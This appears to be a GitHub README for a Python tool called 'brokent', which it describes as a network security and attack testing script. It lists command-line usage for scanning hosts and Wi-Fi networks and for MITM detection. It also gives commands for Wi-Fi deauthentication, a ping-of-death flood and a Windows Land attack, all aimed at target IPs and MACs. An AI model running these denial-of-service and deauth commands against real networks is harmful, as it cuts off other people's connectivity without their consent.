 # brokent - Network Security and Attack Testing Python Script

## Use

### Help Documentation

`python3 brokeint.py -h`

###  Scans devices with cidr display and gives information about devices 

`python3 brokeint.py -ip 192.168.1.1/24 -iface eth0,Wi-Fi`

### The --nmap parameter scans using nmap and collects information about devices

`python3 brokeint.py -ip 192.168.1.1/24 --nmap`

### Warns the client against MITM attacks when accessing http sites

`
python3 brokeint.py -M -iface Wi-Fi`

### Brings detailed information about networks and SSID around

`python3 brokeint.py --network`

### Shell opens and provides information about your own network with commands from the help documentation

`python3 brokeint.py --networkPassword`

### This command deauts the desired target and tries to interrupt its internet service

`python3 brokeint.py --deauth <packet_count> -a <modem(SSID)_mac> -c <target_mac> -iface Wi-Fi`

### Ping of death sends ICMP pings to the target and performs a DOS attack

`python3 brokeint.py ip 192.168.112 -d 150 -C 10000 -iface Wi-Fi`

### Land attack (designed for Microsoft Windows): performs a DOS attack by making the attack on the local network

`python3 brokeint.py -sI 192.168.1.113 -dI 192.168.1.112 -C 1000`
